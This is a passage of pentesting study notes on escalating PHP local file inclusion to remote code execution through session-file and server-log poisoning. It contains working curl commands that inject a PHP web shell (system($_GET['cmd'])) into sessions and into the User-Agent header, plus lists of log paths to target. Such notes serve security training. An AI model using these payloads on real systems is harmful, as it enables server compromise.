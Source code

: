 **Scenario** If we have an infected web application with LFI on the language parameter:
1. Include the session file through the LFI vulnerability and view its contents:
	``` bash
	$ curl "http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd"
	[SNIP]......page|s:6:"en.php";preference|s:7:"English";.......
	# page value is under our control, as we can control it through the ?language= parameter.
	```
2. Manipulate the controllable parameter to become a PHP web shell.
	``` bash
	$ curl "http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E"
	```
3. Include the session file and use the `&cmd=id` to execute a commands
	``` bash
	$ curl "http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id"
	......page|s:30:"uid=33(www-data) gid=33(www-data) groups=33(www-data),4(adm)";preference|s:7:"Spanish";.....[SNIP]
	```

> [!Note]
> To execute another command, the session file has to be poisoned with the web shell again, as it gets overwritten after every inclusion.
#### Server Log Poisoning
- `access.log` and `error.log`.
	- `Nginx` readable by low privileged users by default. 
		- `/var/log/nginx/` on Linux.
		- `C:\nginx\log\` on Windows.
	- `Apache` readable by users with high privileges, **Older and misconfigured are not**.
		- `/var/log/apache2/` on Linux.
		- `C:\xampp\apache\logs\` on Windows.
- If they are in different location, we may use [LFI Wordlist](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) to fuzz for their locations.
> Poisoning `User-Agent` header on http requests.
- `User-Agent` header can be controlled by editing requests.
	- Shown on:
		- `access.log`
		- `/proc/self/environ`
		- `/proc/self/fd/N` files (where N is a PID usually between 0-50)
	- If we can include a file from the 3 above, Poison the `User-Agent` header then include the readable: 
		``` bash
		curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
		curl "http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log?cmd=id" | grep uid
		[SNIP]..."uid=33(www-data) gid=33(www-data) groups=33(www-data),4(adm)"
		```
- If we have read permissions to read various system services logs with LFI such `ssh`, `ftp`, `mail services`:
	- Try log into them and set the username to PHP code, and upon including their logs, the PHP code would execute.
		- `/var/log/sshd.log` 
		- `/var/log/vsftpd.log`
	- We can send an email containing PHP code, and upon its log inclusion, the PHP code would execute.
		- `/var/log/mail`
---
## Automation
1. Fuzz for parameters (fuzz for `GET`/`POST`)
Identify exposed parameters that are not linked to any forms we tested manually.
``` bash
```